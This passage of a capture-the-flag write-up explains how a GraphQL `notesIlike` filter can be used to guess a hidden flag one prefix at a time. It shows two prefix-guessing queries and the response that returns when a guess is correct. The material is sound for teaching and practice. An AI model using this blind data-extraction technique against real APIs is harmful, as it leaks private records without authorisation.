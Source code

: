 What mainly interested us is the `getCharacters` method that allow many filtering the underlying data.  
We'll see examples quite soon, so let's not dive more on graphql please <3

#### Showing data when we are guessing the right flag
What we saw is the existence of a `notesIlike` filter, that allows to show data only if our prefix of flag is correct.

Query:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fak%" }] }
  ) {
    edges {
      node {
        notes
      }
    }
  }
}
```

Response:
```json
{
  "data": {
    "getCharacters": {
      "edges": [
        {
          "node": {
            "notes": "maple{fake}"
          }
        }
      ]
    }
  }
}
```

Query 2:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fal%" }] }
  ) {
    edges {
      node {
        notes
      }
    }
  }
}
```
